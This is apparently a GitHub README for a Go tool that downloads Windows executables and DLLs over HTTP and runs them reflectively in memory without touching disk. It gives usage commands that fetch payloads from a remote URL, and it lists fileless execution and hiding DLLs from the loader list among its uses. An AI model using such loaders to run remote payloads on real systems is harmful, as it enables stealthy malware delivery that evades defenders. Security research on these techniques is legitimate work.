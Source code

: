 # pure go http memexec
[![Go CI](https://github.com/carved4/pure-go-http-memexec/actions/workflows/go.yml/badge.svg)](https://github.com/carved4/pure-go-http-memexec/actions/workflows/go.yml)

A lightweight, memory-safe Windows PE file execution tool that downloads and executes payloads without ever touching the disk. Supports both executables and DLLs.


## Features

- **Zero Disk I/O**: Downloads executables directly to memory and never writes them to disk
- **Pure Go Implementation**: 100% Go code with no CGO dependencies (thank you binject/debug you guys are truly the goats)
- **Memory-Safe Execution**: Implements proper memory protection and relocation
- **TLS Callback Support**: Properly handles TLS callbacks in PE files
- **DLL Support**: Can load DLLs in memory and call exported functionsS
- **Simple API**: Single command to download and execute payloads

[find binject debug here](https://github.com/Binject/debug)
## How It Works

go http memexec uses a sophisticated reflective PE loading technique to run executables in memory:

1. Downloads a PE file directly to memory using golang's net/http
2. Parses the PE file structure using the Binject/debug/pe package
3. Maps the PE file into memory with proper section permissions
4. Resolves imports and fixes relocations
5. Handles TLS callbacks properly
6. For EXEs: Executes the payload by jumping to its entry point
7. For DLLs: Calls DllMain with DLL_PROCESS_ATTACH and lets you call exported functions

## Usage

```bash
# Basic usage with default URL (EXE mode)
./go-http-memexec

# Specify a custom download URL (EXE mode)
./go-http-memexec https://example.com/payload.exe

# Load a DLL into memory
./go-http-memexec -dll https://example.com/payload.dll

# Load a DLL and call an exported function by name
./go-http-memexec -dll -proc=RunPayload https://example.com/payload.dll

# Load a DLL and call an exported function by ordinal
./go-http-memexec -dll -ordinal=5 https://example.com/payload.dll
```

## Use Cases

- Security testing and research
- Memory-resident application deployment
- Advanced Windows process manipulation research
- Fileless payload execution
- Loading DLLs without registering them in the PEB loader list

## Technical Details

The project is built entirely in Go:

- Uses golang's net/http to stream downloads directly to memory
- Implements PE parsing using the Binject/debug/pe package
- Properly handles relocations, import resolution, and TLS callbacks
- Sets appropriate memory protections for PE sections
- For EXEs: Executes code directly from memory with no disk I/O
- For DLLs: Maps the DLL into memory, calls DllMain, and allows calling exported functions

## Build Instructions

```bash
# Get dependencies
go mod tidy

# Build the executable
go build -ldflags="-s -w" -trimpath -o go-http-memexec.exe
```

## DLL Loading API

The package provides the following functions for DLL handling:

```go
// Load a DLL into memory
handle, err := runpe.LoadDLLInMemory(dllBytes)

// Get address of an exported function by name
procAddr, err := runpe.GetProcAddressFromMemoryDLL(handle, "ExportedFunctionName")

// Get address of an exported function by ordinal
procAddr, err := runpe.GetProcAddressByOrdinalFromMemoryDLL(handle, 5) // Ordinal 5

// Call the function
syscall.Syscall(procAddr, numArgs, arg1, arg2, arg3)

// Free the DLL when done
err = runpe.FreeDLLFromMemory(handle, 0)
```

## Security Considerations

This tool is designed for legitimate security research, testing, and educational purposes only. The ability to execute code directly from memory without touching disk is a powerful capability that should be used responsibly.

## Requirements

- Windows operating system
- Go 1.20 or later

## Notes
- This project has only been tested on Windows 10
- This is a rewrite of the original C++-based implementation, now in 100% pure Go
- The DLL loading functionality allows more flexible in-memory execution without process hollowing

## Demo Usage of tests (payloads pulled down in this example write a benign indicator of success as a .txt to a temp dir)
https://github.com/user-attachments/assets/fbf58f99-fc74-41af-a96a-5ea01bc0c2aa

## Contributing

Users are encouraged to submit issues and create forks of this project for their own use or to contribute improvements. When working with this codebase, please note:

- This project uses the BSD-3-Clause license, as does the Binject/debug/pe dependency
- When creating forks, please maintain the same license terms
- Contributions via pull requests are welcome
- Please give proper attribution and do not claim this work as your own
- When reusing portions of this code in other projects, ensure you comply with the BSD-3-Clause licensing requirements

## License

 [License: BSD-3-Clause](LICENSE)

## Disclaimer

This project is provided for educational and research purposes only. Users are responsible for ensuring compliance with all applicable laws and regulations.



